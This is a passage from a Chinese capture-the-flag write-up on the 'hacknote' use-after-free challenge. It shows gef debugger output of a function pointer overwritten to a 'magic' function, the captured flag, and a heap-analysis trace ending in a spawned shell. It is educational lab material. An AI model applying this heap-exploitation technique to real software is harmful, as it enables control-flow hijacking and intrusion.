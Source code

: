 覆盖后，具体的值如下

```
gef➤  x/2xw 0x804b008
0x804b008:  0x08048986  0x0804b00a
gef➤  x/i 0x08048986
   0x8048986 <magic>:   push   ebp
```

可以看出，确实已经被覆盖为我们所想要的 magic 函数了。

最后执行的效果如下

```
[+] Starting local process './hacknote': pid 35030
[*] Switching to interactive mode
flag{use_after_free}----------------------
       HackNote       
----------------------
 1. Add note          
 2. Delete note       
 3. Print note        
 4. Exit              
----------------------
```

同时，我们还可以借助 gef 的 heap-analysis-helper 来看一下整体的堆的申请与释放的情况，如下

```
gef➤  heap-analysis-helper 
[*] This feature is under development, expect bugs and unstability...
[+] Tracking malloc()
[+] Tracking free()
[+] Tracking realloc()
[+] Disabling hardware watchpoints (this may increase the latency)
[+] Dynamic breakpoints correctly setup, GEF will break execution if a possible vulnerabity is found.
[*] Note: The heap analysis slows down noticeably the execution. 
gef➤  c
Continuing.
[+] Heap-Analysis - malloc(8)=0x804b008
[+] Heap-Analysis - malloc(8)=0x804b008
[+] Heap-Analysis - malloc(32)=0x804b018
[+] Heap-Analysis - malloc(8)=0x804b040
[+] Heap-Analysis - malloc(32)=0x804b050
[+] Heap-Analysis - free(0x804b018)
[+] Heap-Analysis - watching 0x804b018
[+] Heap-Analysis - free(0x804b008)
[+] Heap-Analysis - watching 0x804b008
[+] Heap-Analysis - free(0x804b050)
[+] Heap-Analysis - watching 0x804b050
[+] Heap-Analysis - free(0x804b040)
[+] Heap-Analysis - watching 0x804b040
[+] Heap-Analysis - malloc(8)=0x804b040
[+] Heap-Analysis - malloc(8)=0x804b008
[+] Heap-Analysis - Cleaning up
[+] Heap-Analysis - Re-enabling hardware watchpoints
[New process 36248]
process 36248 is executing new program: /bin/dash
[New process 36249]
process 36249 is executing new program: /bin/cat
[Inferior 3 (process 36249) exited normally]
```
